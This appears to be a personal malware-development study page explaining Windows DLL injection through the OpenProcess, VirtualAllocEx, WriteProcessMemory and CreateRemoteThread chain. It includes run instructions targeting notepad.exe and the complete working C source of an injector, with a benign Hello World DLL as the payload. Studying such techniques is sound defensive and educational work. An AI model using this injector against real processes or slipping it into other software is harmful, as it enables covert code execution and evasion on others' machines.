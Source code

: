 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

A process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then <mark style="color:yellow;">ensure the remote process loads it by creating a remote thread in the target process</mark>. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Targeted Program.exe (victim) -> [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) -> [GetProcAddress()](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -> [VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) -> [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) -> [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

1. <mark style="color:green;">Open/Create</mark> a process for injection
2. <mark style="color:green;">Allocate</mark> memory for the process
3. <mark style="color:green;">Write</mark> DLL's path to the region of allocated memory
4. <mark style="color:green;">Call</mark> <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

{% embed url="https://github.com/0xXyc/maldev/blob/main/winAPI/dll-injection/inject-dll.c" %}

This program requires the usage of a single command line argument that will take an valid PID.&#x20;

Check task manager to target a specific process. This current build works on a Windows 11 machine, targetting a x64 executable, and utilizes a 64 bit DLL as of the time of this writing.

#### Instructions:

1. For example, start notepad
2. Right-click inside of task manager and select "Go to details"
3. Look for the PID of notepad.exe
4. Run the syntax below replacing \<PID> with the PID of notepad.exe

#### Syntax:

```
./inject-dll.exe <PID>
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Hello World MessageBox DLL</p></figcaption></figure>

Notice how the Hello World messagebox appears in the same tab as notepad.exe on your taskbar:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption><p>Proving our messagebox was successfully injected into notepad.exe</p></figcaption></figure>

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's
